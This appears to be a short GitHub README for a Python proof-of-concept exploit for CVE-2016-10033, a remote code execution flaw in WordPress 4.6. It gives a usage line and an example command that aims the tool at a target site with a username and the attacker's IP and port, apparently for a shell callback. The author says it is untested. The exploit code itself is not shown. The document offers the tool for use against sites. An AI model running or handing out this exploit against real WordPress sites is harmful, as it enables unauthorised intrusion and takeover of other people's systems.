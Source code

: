 # PoC for CVE-2016-10033

**RCE against WordPress 4.6**

usage:
```
./CVE-2016-10033.py <target site> <your ip:port> <username>
```
example: 
```
./CVE-2016-10033.py http://site.com/ 1.2.3.4:4444 admin
```

---

Python port (+alterations) of https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html 

Required: Requests (pip install requests)

---

I haven't had the chance to test this so please let me know about your results